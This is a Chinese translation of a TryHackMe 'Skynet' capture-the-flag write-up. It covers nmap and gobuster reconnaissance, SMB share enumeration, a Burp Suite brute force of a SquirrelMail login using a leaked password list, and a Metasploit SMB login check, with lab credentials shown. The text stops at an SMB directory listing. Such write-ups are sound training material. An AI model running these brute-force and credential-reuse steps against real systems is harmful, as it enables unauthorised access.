# TryHackMe 报道:天网

> 原文：<https://infosecwriteups.com/tryhackme-writeup-skynet-2c068f19521b?source=collection_archive---------0----------------------->

S kynet 是“*一个易受攻击的终结者主题 Linux 机器*”([“tryhackme”，2019](https://tryhackme.com/room/skynet) )。这个房间本身就很有趣——我花了一段时间才完成；一波三折。以 SMB 文件共享探测、电子邮件服务器和关于获得最后一个标志的相当简单的结尾为特色。


图像库: [HowStuffWorks (n.d.)](https://lifestyle.howstuffworks.com/crafts/drawing/how-to-draw-a-cityscape.htm) 和[壁纸 Flare (n.d.)](https://www.wallpaperflare.com/woman-riding-motorcycle-illustration-fate-series-anime-anime-girls-wallpaper-ptdsp)

# 目录

1.  程序
2.  结论
3.  尾注
4.  参考

# 程序

在我继续之前，我需要清楚地定义这个房间的目标。攻击者要在目标系统上设计出一个属于低特权帐户的标志。那么目标是找出属于根帐户的标志。通过快速修改`/etc/hosts`以包含`skynet.thm`伪域名，并点击第一个任务右上角的强制性绿色“启动机器”按钮，我现在可以开始工作了。

## 探索

我将从浏览网页浏览器上的`skynet.thm`伪域名开始，快速判断网页服务器是否在运行，如果是，显示什么内容。确实有一个 web 服务器运行在标准端口 80 上。图 1 描述了在目标机器上运行的 web 应用程序:



图 1

我决定探查 web 应用程序本身的一些漏洞。但是，在这样做之前，我想我应该对目标系统运行一个[nmap(n . d .)】](https://nmap.org/)扫描，看看是否有其他有趣的服务在其上运行——比喻一石二鸟:

```
**┌──(dna㉿deniers)-[~/skynet]
└─ #** **sudo nmap -sT -A -v -Pn -p- -O -sC -oX tcp_scan.xml skynet.thm**
Host discovery disabled (-Pn). All addresses will be marked ‘up’ and scan times may be slower.
Starting Nmap 7.92 (https://nmap.org) at [redacted]
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 06:50
Completed NSE at 06:50, 0.00s elapsed
Initiating NSE at 06:50
Completed NSE at 06:50, 0.00s elapsed
Initiating NSE at 06:50
Completed NSE at 06:50, 0.00s elapsed
Initiating Connect Scan at 06:50
Scanning skynet.thm (redacted) [65535 ports][... snip ...]
```

我还让*gobuster*([Mehlmauer 等人，n.d.](https://github.com/OJ/gobuster) )实用程序扫描隐藏目录，作为我在同一时间框架内完成多项任务的计划的一部分:

```
**┌──(dna㉿deniers)-[~/skynet]
└─$ gobuster dir -u http://skynet.thm -w ~/skynet/wordlist.txt -x php,php5,htm,html**
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://skynet.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ~/skynet/wordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,php5,htm,html
[+] Timeout:                 10s
==============================================================
[redacted] Starting gobuster in directory enumeration mode
==============================================================[... snip ...]
```

然后，我运行了 Burp Suite (n.d .)工具包，看看我是否可以让应用程序以一种非传统的方式运行。从 webform 开始，我在输入表单中键入字符串`dna deniers`以尝试获得响应(图 2 ),并尝试通过回车键、“天网搜索”(图 2b)和“我感觉很幸运”按钮(图 2c)让事件发生，而没有太多可观察到的事情发生。



图 2

我真正“观察”到的唯一一件事是在浏览器的 URL 表单上添加了磅`#`字符(图 2a)。尽管如此，通过这个漏洞载体接管这个系统还是有机会的，所以我查看了页面的 HTML 源代码。下面描述了相关的 HTML 代码:

```
<body>
  <div>
  
  <form name="skynet" action="#" method="POST"><br>
    <input type="search" class="search"><br>
    <input type="submit" class="button" name="submit" value="Skynet Search">
    <input type="submit" class="button" name="lucky" value="I'm Feeling Lucky">   
  </form>
  </div>
</body>
```

从 HTML 源代码来看，与输入表单及其按钮进行交互不会有任何作用。看起来面向 web 应用程序不容易受到注入攻击。我现在将转向使用 *gobuster* 的子目录发现攻击的结果；表 1 描述了已经报道的结果:



表 1(注意`REDIR →`是指重定向到其箭头右侧的网页)。

所有子目录的 HTTP 代码都是 403 ( [Fielding & Reschke，2014，6.5.3](https://datatracker.ietf.org/doc/html/rfc7231#section-6.5.3) )，除了`/squirrelmail`子目录。图 3 描述了该子目录中浏览器的 web 应用程序:



图 3

从子目录`/squirrelmail`可以推断，该子目录安装了[squirrel mail(n . d .)](https://squirrelmail.org/)webmail 包。此实例正在运行版本`1.4.23`，该版本有几个漏洞( [CVE 详细信息，n.d.](https://www.cvedetails.com/vulnerability-list/vendor_id-803/Squirrelmail.html) )。我稍后将回到这一点。

关于 *nmap* 结果，图 4 描述了它能够识别哪些端口及其各自的服务:



图 4

目标计算机上运行的服务有:

*   OpenSSH 服务器(版本。7.2p2)在端口 22 上。
*   Apache 服务器(版本。2.4.18)在端口 80 上。
*   端口 110 上的 Dovecot POP3 服务器。
*   Samba 文件共享服务器(版本。3.x 或版本。4.x？)在 139 端口。
*   端口 143 上的 Dovecot IMAP 服务器。
*   Samba 服务的 NetBIOS 组件(版本。4.3.11)在端口 445 上。

此外，目标计算机似乎正在运行某种版本的 Microsoft Windows 或某种版本的 Ubuntu Linux，内核版本为 3.x. *nmap* 还报告了有关文件共享的更多信息，如图 5 所示:



图 5

知道这个文件共享的用户名是“guest”，我现在可以继续使用`smbmap`实用程序( [Kali Linux Tools，n.d.](https://www.kali.org/tools/smbmap/) )来枚举在目标系统上运行的 Samba 服务中的共享。我在攻击箱上运行了以下命令:

```
**┌──(dna㉿deniers)-[~/skynet]
└─$ smbmap -H skynet.thm**
```

表 2 描述了该命令的输出:



表 2

`anonymous`文件共享具有只读访问权限。知道我现在可以继续使用 [smbclient (n.d.)](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) 实用程序来探测它:

```
**┌──(dna㉿deniers)-[~/skynet]
└─$ smbclient //skynet.thm/anonymous -U guest** 
Enter WORKGROUP\guest's password: *[inputs nothing]*
Try "help" to get a list of possible commands.
**smb: \>**
```

然后我列出并下载了所有我能找到的文件:

```
**smb: \> ls**
  .                   D        0  Thu Nov 26 11:04:00 2020
  ..                  D        0  Tue Sep 17 03:20:17 2019
  attention.txt       N      163  Tue Sep 17 23:04:59 2019
  logs                D        0  Wed Sep 18 00:42:16 20199204224 blocks of size 1024\. 5691192 blocks available
**smb: \> get attention.txt**
getting file \attention.txt of size 163 as attention.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \> cd logs
**smb: \logs\> dir**
  .               D        0  Wed Sep 18 00:42:16 2019
  ..              D        0  Thu Nov 26 11:04:00 2020
  log2.txt        N        0  Wed Sep 18 00:42:13 2019
  log1.txt        N      471  Wed Sep 18 00:41:59 2019
  log3.txt        N        0  Wed Sep 18 00:42:16 20199204224 blocks of size 1024\. 5691192 blocks available
**smb: \logs\> get log1.txt**
getting file \logs\log1.txt of size 471 as log1.txt (0.8 KiloBytes/sec) (average 0.6 KiloBytes/sec)
**smb: \logs\> get log2.txt**
getting file \logs\log2.txt of size 0 as log2.txt (0.0 KiloBytes/sec) (average 0.4 KiloBytes/sec)
**smb: \logs\> get log3.txt**
getting file \logs\log3.txt of size 0 as log3.txt (0.0 KiloBytes/sec) (average 0.4 KiloBytes/sec)
**smb: \logs\>**
```

我用 cat 命令转储了`attention.txt`文件和`log1.txt`、`log2.txt`和`log3.txt`文件的内容。`log2.txt`和`log3.txt`没有任何内容，但是`attention.txt`和`log1.txt`有内容:

```
**┌──(dna㉿deniers)-[~/skynet]
└─$ cat attention.txt**
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

**┌──(dna㉿deniers)-[~/skynet]
└─$ cat log1.txt** cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989[... snip ...]
```

这里了解到三个重要的信息:第一个是有一个叫 *Miles Dyson* 的人对系统有某种程度的管理特权，第二个是系统上的所有用户因为系统故障不得不重置他们的密码。

第三是`log1.txt`文件有一个潜在的密码列表，用户可以将密码重置为该列表。回到 *SquirrelMail* web 应用程序，我认为我应该尝试通过暴力攻击获得对目标系统的初始访问权。

## 初始访问

根据“Miles Dyson”这个名字，我使用了`username_generator.py`工具([“0x shroudri”，n.d.](https://github.com/shroudri/username_generator) )来创建一个潜在用户名列表，然后将它们通过管道传输到`username_list`文件中:

```
**┌──(dna㉿deniers)-[~/skynet]
└─$ ./username_generator.py -w users > username_list****┌──(dna㉿deniers)-[~/skynet]
└─$ cat username_list   **       
miles
dyson
m.dyson
m-dyson
m_dyson
m+dyson
mdyson
dysonmiles
```

随着 Burp Suite 实例的运行，我可以使用其*集束炸弹*攻击( [PortSwigger，n.d.](https://portswigger.net/burp/documentation/desktop/tools/intruder/attack-types) )通过 SquirrelMail 在目标系统上暴力攻击用户。我将首先故意向应用程序添加不正确的凭证，以便将`POST`请求传递给 Burp Suite 的*入侵者。*图 5 和图 6 描绘了这一点:



图 6



图 7

我输入一个假用户名和假密码(图 6a、6b)，然后点击“[l]登录”(图 6c)。然后我看到一个“错误”页面(图 7 ),显示我的用户名和密码组合不正确。

现在，我可以通过导航到 Burp Suite 的 HTTP History 选项卡，将我尝试登录到目标系统的电子邮件服务的 POST 请求发送给入侵者。图 8 描述了这一点:



图 8

我将首先进入 HTTP History 选项卡(图 8a)，右键单击最近的 HTTP POST 请求(图 8b)，然后单击 Send to Intruder(图 8c)。请求的报头被发送给入侵者，如图 9 所示:



图 9

在入侵者选项卡中，我转到*位置*子选项卡(图 9a)并将攻击类型配置为集束炸弹(图 9b、9c)。然后，我清除了所有要注入有效载荷的部分(图 9d ),并继续将`login_username`和`secretkey`标识为强力攻击的参数。我将它们都设置为注入各种用户名和密码组合的点，然后继续配置有效负载(图 9g)。然后我就开始进攻了。

在后台运行了一段时间后，我没有得到可以用来登录目标系统的用户名和密码组合。我摆弄了一下用户名列表，添加了`milesdyson`，然后重新发起了攻击。几分钟后，我找到了一个有效的用户名和密码组合。图 10 描述了暴力的结果:



图 10

我能够通过下面的推理计算出用户名和密码的组合:不正确的密码将导致相同文件大小和相同 HTTP 状态代码的相同网页。图(10a，10b)分别示出了返回的网页的返回 HTTP 状态码和文件大小。`milesdyson`和`cyborg007haloterminator`有效负载的 HTTP 状态(302)和文件大小(2114)不同于所有其他请求。由此，我推断这是登录 *SquirrelMail* 系统的正确用户名和密码组合。

我通过使用该组合登录系统来测试我的想法，如图 11 所示:



图 11

我成功了，图 12 显示了我对戴森收件箱的访问:



图 12

非常好。

## 后开发:反向外壳

现在我可以看戴森的邮件了。从`serenakogan@skynet`电子邮件地址发送了两封没有主题的邮件。第一条写道:

```
i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
```

第二个写着:

```
01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110
01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111
```

关于第二封邮件的正文，我认为它可能包含一条有趣的二进制编码信息。我使用了二进制到 ASCII 的转换器( [RapidTables，n.d.](https://www.rapidtables.com/convert/number/binary-to-ascii.html) )，得到了以下 ASCII 消息:

```
balls have zero to me to me to me to me to me to me to me to me to
```

来自`serenakogan@skynet`的邮件似乎不包含任何有用的信息。第三封电子邮件发自`skynet@skynet`，主题为“重置密码”，内容如下:

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

现在我有了用户名和密码组合的第二部分，这有可能让我进入 Dyson 拥有的一个 SMB 帐户。

我现在将尝试使用 Miles Dyson 的名字和提供的密码登录 Samba。我运行 [Metasploit (n.d.)](https://www.metasploit.com/) ，并使用其`smb_login`模块( [InfoSec Matter，n.d.](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/smb/smb_login) )计算出戴森的 SMB 帐户的用户名:

```
**┌──(dna㉿deniers)-[~]
└─$ sudo msfconsole**
[sudo] password for dna: [... snip ...]**msf6 > use auxiliary/scanner/smb/smb_login**
**msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS skynet.thm**
RHOSTS => skynet.thm
**msf6 auxiliary(scanner/smb/smb_login) > set RPORT 445**
RPORT => 445
**msf6 auxiliary(scanner/smb/smb_login) > set USER_FILE ~/skynet/username_file**
USER_FILE => ~/skynet/username_list
**msf6 auxiliary(scanner/smb/smb_login) > set SMBPASS )s{A&2Z=F^n_E.B`**
SMBPASS => )s{A&2Z=F^n_E.B`
**msf6 auxiliary(scanner/smb/smb_login) > run**[*] skynet.thm:445 [...] Starting SMB login bruteforce
[+] skynet.thm:445 [...] **Success**: '.\miles:)s{A&2Z=F^n_E.B`'
[!] skynet.thm:445 [...] No active DB -- Credential data will not be saved!
[+] skynet.thm:445 [...] **Success**: '.\dyson:)s{A&2Z=F^n_E.B`'
[+] skynet.thm:445 [...] **Success**: '.\m.dyson:)s{A&2Z=F^n_E.B`'[... snip ...][+] skynet.thm:445 [...] **Success**: '.\milesd:)s{A&2Z=F^n_E.B`'
[+] skynet.thm:445 [...] **Success**: '.\milesdyson:)s{A&2Z=F^n_E.B`'
[*] skynet.thm:445   ... Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

现在`smb_login`模块报告了每个用户名和密码组合的“成功”;这告诉我，它似乎不能正常工作。这可能是因为我的错误，但是我决定用相当短的`username_file`和发现的密码手动测试登录组合。

回想一下，在 Samba 服务上有一个名为`milesdyson`(表 2)的共享，所以我将尝试使用`smbclient`来访问挂载。经过一段时间的反复试验，我得以进入 milesdyson 的 SMB 登录:

```
**┌──(dna㉿deniers)-[~/skynet]
└─$ smbclient //skynet.thm/milesdyson -U milesdyson** 
Enter WORKGROUP\milesdyson's password: **)s{A&2Z=F^n_E.B`**
Try "help" to get a list of possible commands.
**smb: \>**
```

然后，我开始下载根目录:

```
**smb: \> pwd**
Current directory is \\skynet.thm\milesdyson\
**smb: \> ls**
  .                                   D        0  Tue Sep 17 05:05:47 2019
  ..                                  D        0  Tue Sep 17 23:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 05:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 05:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 05:05:14 2019
  notes                               D        0  Tue Sep 17 05:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 05:05:14 2019
